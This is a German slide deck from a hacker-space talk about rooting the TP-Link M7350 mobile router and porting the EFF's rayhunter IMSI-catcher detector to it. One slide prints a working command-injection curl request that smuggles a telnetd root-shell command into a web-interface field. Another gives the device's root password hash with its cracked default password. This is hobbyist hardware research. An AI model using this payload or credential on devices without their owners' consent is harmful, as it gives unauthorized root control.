










:::::::::::::: {.columns}
::: {.column width="36%"}
handle: \
bürgerlich: \
rufname: \
:::
::: {.column width="42%"}
m0veax \
Patrick Kilter \
Lutz \
:::
::: {.column width="5%"}
:::
::::::::::::::
 \

- In meinem Berufsleben mache ich Sachen mit Software Entwicklung und Corporate Requirements
- Springe seit 2022 im Chaos rum
- Verbringe meine Freizeit mit allem was mich (sprunghaft) interessiert und unternehme viel mit meinen Kindern

# TP-Link M7350 Projekt

- mein erstes Projekt im Bereich "Hardware Hacking"
- was ich hier zeige ist nicht nur meine Leistung, sondern gesammelte Werke aus dem Projekt

# Beginn

- wir sind irgendwie™ an eine Stückzahl der Mobile-Router gekommen
- Im Chaospott haben sich mehrere Entitäten gefunden, die sich mit dem Gerät befassen möchten
- wir haben einen [Matrix Channel](https://matrix.to/#/!hUtDhlRLVIQJzRgCpE:zehka.net?via=yip.gay&via=matrix.org&via=chaospott.de) und ein [Github Repository](https://github.com/m0veax/tplink_m7350/tree/main) zum sammeln der Informationen eingerichtet

# Hardware

:::::::::::::: {.columns}
::: {.column width="47%"}
SoC \
flash \
mobile wireless
:::
::: {.column width="47%"}
Qualcomm MDM9225 \
2Gbit (256MB) Winbond W71NW20GF3FW \
Skyworks SKY77629
:::
::: {.column width="5%"}
:::
::::::::::::::

 \

:::::::::::::: {.columns}
::: {.column width="47%"}

:::
::: {.column width="47%"}

:::
::: {.column width="5%"}
:::
::::::::::::::

 \

# Wir legen los

- wir finden 4pda
- russisches Forum, das u.a. eine RCE im Webinterface gefunden hat
- die dort hochgeladenen Scripte sind nicht mehr verfügbar
- wir haben den dokumentierten Payload in Rust und später bash implementiert und telnet Zugang auf das Gerät erhalten
- wir haben root per telnet

`curl -s 'http://192.168.0.1/cgi-bin/qcmap_web_cgi' -b "tpweb_token=$token" -d '{"token":"'"$token"'","module":"webServer","action":1,"language":"$(busybox telnetd -l /bin/sh)"}' > /dev/null`

# Erste Findings

- komfortable shell per adb possible
- wir dokumentieren random findings im Filesystem und dumpen die Firmware
 - `root:C98ULvDZe7zQ2:0:0:root:/home/root:/bin/sh` -> `oelinux123`
- aus der Firmware extrahieren wir ein Device Tree Binary

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Version per dtvis

{ height=80% }

# Was können wir eigentlich mit dem Display machen?

- Wir können UI Tiles darstellen und ändern

{ height=80% }

# Was können wir eigentlich mit dem Display machen?

- Pika Pika

{ height=50% }

# Was können wir eigentlich mit dem Display machen?

- der kann farbe, obwohl die originale Firmware nur schwarz/weiß nutzt

{ height=80% }

# TP-Link OSS

- Kernel Sources von der TP-Link Seite
- Ist ein Android Kernel
- Wir hatten Schwierigkeiten die passende Kernelversion zu finden
- Wir haben die ersten Kernel bauen können
- [extra repository](https://github.com/m0veax/tplink_m7350-kernel) erstellt und im Hauptrepository verlinkt

# Bootpoint

- Mit dem Bootpoint ist es möglich das Gerät im Emergency Download (EDL) Modus zu starten

# Bootpoint

{ height=80% }

# Bootpoint

{ height=80% }

# Bootpoint

{ height=40% )

# Bootpoint

- [qc_boot](https://github.com/platform-system-interface/qc_boot), Projekt um Qualcomm SoCs per USB im [EDL Mode](https://en.wikipedia.org/wiki/Qualcomm_EDL_mode) zu booten

# fastboot

- fastboot implementiert in [LK](https://github.com/littlekernel/lk) (Little Kernel)

# offene Rätsel

- per Shellzugriff können AT Commands an das Modem gesendet werden
- das wurde noch nicht ausprobiert und kann dokumentiert werden

# offene Rätsel

- was könnt ihr finden?

# rayhunter

- Erst einmal ein Disclaimer
- Ich habe `rayhunter` nicht geschrieben

# rayhunter

- Ich habe wenig Ahnung von Mobilfunk / GSM

# rayhunter

- Ich kann technisch einen IMSI Catcher nicht erklären

# rayhunter - Was ist das eigentlich?

- rayhunter wurde von der Electronic Frontier Foundation im Mai 2025 veröffentlicht
- Wurde ursprünglich für den Orbic Hotspot geschrieben
- Ist in Rust 🦀 geschrieben

# rayhunter - Was ist das eigentlich

- Ein Tool um IMSI Catcher zu detektieren und den Nutzer darüber zu informieren

# IMSI Catcher - eine kurze Exkursion

- Ein IMSI Catcher ist ein Gerät mit dem unter anderen festgestellt werden kann, welche SIM Karten / Mobilfunknutzer sich in einem bestimmtem Umkreis befinden
- Es gibt auch Möglichkeiten Gespräche auf GSM (unverschlüsselt zu downgraden)
- Dafür strahlt der IMSI Catcher eine eigene Funkzelle aus und die verbindungsfreudigen Mobiltelefone melden sich an, da der Empfang gut ist

# Was hat das mit unserem TP-Link zu tun?

- Im Mai 2025 wurde Hardware für den europäischen Markt gesucht
- relativ schnell hat sich herausgestellt, dass unser TP-Link dem Orbic sehr ähnlich ist
 - Root Exploit vorhanden, Zugriff auf das Qualcomm DIAG Interface ist möglich
- relative schnell ist eine erste Portierung auf den TP-Link M7350 HW-v3 erfolgt
- weitere Revisionen folgten (mehr oder weniger) schnell
- mittlerweile ist auch der Installer in Rust geschrieben

# rayhunter ui

# rayhunter pcap

- Ein nettes Nebenprodukt von rayhunter ist das erstellen von .pcap files für recordings
- Hier kann sich der GSM / LTE / ect. Traffic der über den Qualcomm Chip läuft angeschaut werden
- Voraussetzung ist, dass eine SIM Karte in das Gerät eingelegt wurde
- An dem Tag lernte ich, das SMS unverschlüsselt sind. Habe ich vorher nicht drüber nachgedacht

# rayhunter pcap

# Fazit

- Sowohl im Kontext vom TP-Link M7350 als auch bei rayhunter gibt es noch viel zu tun und zu entdecken
- Neben der Erkennung von IMSI Catchern, kann mit rayhunter und dem TP-Link Device das Mobilfunknetz sichtbar gemacht werden

# Credits 

- thanks to @untitaker for picking up the "installer" development after I felt into the next rabbithole <3
- thanks to @matej\_kovacic for summarizing IMSI Catchers <3
- thanks to the EFF for inventing rayhunter <3 I learned a lot using it :)
- thanks to CyRevolt and the other Chaospott folks <3
- thanks to DuSchu for finding the initial 4pda thread, thats how the journey started <3

# Links

- [rayhunter - github](https://github.com/EFForg/rayhunter)
- [IMSI Catcher slides from Matej Kovacic](https://telefoncek.si/predavanja/IMSI_catchers_and_mobile_security_2024.pdf)
- [Mastodon @m0veax](https://det.social/@m0veax)
